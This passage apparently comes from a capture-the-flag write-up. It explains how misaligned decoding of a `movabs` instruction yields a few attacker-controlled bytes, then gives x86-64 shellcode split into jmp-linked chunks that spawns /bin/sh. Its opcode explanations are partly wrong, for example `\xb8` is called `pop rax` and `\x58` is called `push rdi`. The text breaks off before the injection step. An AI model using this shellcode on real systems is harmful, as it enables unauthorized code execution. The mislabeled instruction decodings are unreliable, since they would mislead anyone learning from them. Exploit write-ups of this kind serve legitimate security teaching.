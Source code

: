 Ha! Can you believe this? We just got a bunch of new useful instructions! This is because:
`\x00\x48` got interpreted as `add BYTE PTR [rax-0x48],cl` and as `\x48` belonged to `movabs`. This means that the program will see `\x00\x48` and then will see `\xb8` which will get interpreted as `pop rax`. Then we execute `\x58` as `push rdi`, `\x57` as push rsi, etc. But wait! We do control `\x57\x56\x55\x54\x53\x52\x51`, so we just gain nice code execution!!!

### Combining shellcode chunks
The problem is that we have just len(`\x57\x56\x55\x54\x53\x52\x51`) = 7 bytes to place our shellcode which is not much :/ Then again `movabs` is interpreted. I don't think there exists such a short shellcode and so we must bypass this limitation. We can do this using `jmp` instruction! We will just jump between our controlled code!

We can inject shellcode splitted as this:

```assembly
section .text
	global _start

_start:
    ; assumption $rbx contains /bin/sh
    push 0x42
    pop rax
    inc ah
    jmp _slot2
    add [rax], al

_slot2:
    cqo
    push rdx
    push rbx
    pop rdi
    jmp _slot3
    add [rax], al

_slot3:
    push rdi
    push rsp
    pop rsi
    jmp _slot4
    add [rax], al

_slot4:
    mov r8, rdx
    mov r10, rdx
    jmp _slot5

_slot5:
    syscall
```

This is modified shellcode from http://shell-storm.org/shellcode/
We can inject it like this:
